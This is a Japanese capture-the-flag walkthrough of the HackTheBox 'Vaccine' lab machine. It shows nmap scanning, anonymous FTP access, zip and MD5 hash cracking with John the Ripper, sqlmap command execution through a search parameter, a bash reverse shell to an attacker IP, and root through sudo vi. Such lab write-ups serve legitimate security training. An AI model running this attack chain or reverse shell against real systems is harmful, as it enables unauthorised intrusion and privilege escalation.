

# Vaccine Walkthrough
HTBのVery Easyマシン、Vaccineを解いたよ。  


## 1問目  
1問目は"Besides SSH and HTTP, what other service is hosted on this box?"   
nmapで1から10000のポートを選択してスキャンしてサービスを列挙する。
```
sudo nmap -sV -p 1-10000 -T4 <target_IP> -A -v
```  

21番ポートが空いてるので、このサービスをフラグ入れる。1問目ゲット。  


## 2問目  
2問目。"This service can be configured to allow login with any password for specific username. What is that username?"  
FTPには**匿名ログイン**なるものがある。nmapでスキャンしたときに**Anonymous FTP login allowed**って書いてあれば、FTPログインする際に**anonymous**ユーザを指定してパスワード入力せずにログインできる。ということで答えは**anonymous**。
  
  

## 3問目  
3問目。"What is the name of the file downloaded over this service?"  
FTP経由でダウンロードできるファイルを確認するため先ほどの**anonymous login**を使って接続してみる。  
```
ftp <target_IP>
Name: anonymous
Password:
```
  
  
    
dirでファイルを列挙してからgetコマンドでローカルにファイルを落とす。exitでFTP接続を切る。
```
dir
get backup.zip
exit
```

## 4問目  
4問目。"What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?"  
以下のコマンドでパスワード付きzipからパスワードのハッシュを抽出できる。なので答えは**zip2john**
```
zip2john bakup.zip > hash.txt
cat hash.txt
```  
  


## 5問目
5問目。"What is the password for the admin user on the website?"  
とりまブラウザからターゲットサーバの80ポートへ。  
  
ここでUsernameは**admin**、ただしPasswordが分からない。  
  

backup.zipから抽出したハッシュをjohnでクラックする。  
パスワードっぽい数字が出てきた。
```
john hash.txt
```  
  
  
backup.zipを解凍する。パスワードは先ほどのjohn hash.txtで出てきた上記の数値。  
```
unzip backup.zip
```
  
index.phpが見れるようになるので見てみる。md5のパスワードハッシュらしきものが見える。  
先ほどの管理者画面からpasswordパラメータの値としてこのハッシュをPOSTしていそう。
  
  
MD5のハッシュをtxtファイルに保存してjohnでクラックする。ワードリストで迷ったらとりあえずrockyou.txtを使うのがコツ。  
  

```
john --format=raw-md5 crack.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
qwerty789というパスワードが取れた。  

  


## 6問目  
6問目。"What option can be passed to sqlmap to try to get command execution via the sql injection?"
helpを見たら--os-shellって書いてあるのでこれが正解。
```
sqlmap --help
```

## 7問目 
7問目。"What program can the postgres user run as root using sudo?"  
sudo -lをすれば、現在ログインしているユーザでパスワード入力なしでroot実行できるコマンドが出てくるので、まずはシェルを取ってからsudo -lしたいところ。  
なのでとりまシェルを取る。  
先ほどのsqlmapを使う。
```
sqlmap -r get.txt -p search --os-shell
```
ここで、-rで指定しているのはこんなやつ。

  

ターゲットの管理画面にブラウザアクセスした後、右上の検索窓から適当に入力するとリクエストが中継されて取れる。  

で、リクエストを見るとsearchパラメータが任意の文字列を渡せる場所なので、sqlmapの-pでsearchを指定。あとはシェルを取るためにさっきの--os-shellオプションをつける。  
  
で、こんな感じでシェルがとれてコマンド実行ができる。現在はPostgresユーザ。  
  
  
シェルを安定させるために以下のコマンドを実行してリバースシェルをとっとく。   
```
nc -lvnp 4444
bash -c "bash -i >&1 /dev/tcp/<attackerIP>/4444 0>&1"
```
  
シェルを取ったら/var/www/html/dashboard.phpをcatで確認するとPostgresユーザのパスワードが書いてある。  
やっとの思いでsudo -lを実行する。  
viが使えるのが分かるのでこれが答え。
```
sudo -l
```
  

## 8問目&9問目  
8問目と9問目まとめていきます。ユーザフラグとrootフラグを取る。  
root権限で以下のコマンド実行できるのがさっきのステップで分かった。  
以下を実行する。
```
sudo vi /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
  
  
root権限でviを使える。権限昇格のバイブル、[GTFObin](https://gtfobins.github.io/gtfobins/vi/#sudo)をチェック。  
viで開いたら、:set shell=/bin/shと:shellを書き込んでwqで保存するだけぽい。  
   
そんなこんなでrootとれた。
  
  
もうrootなんであとはなんでもできる。フラグを探して終わり。  
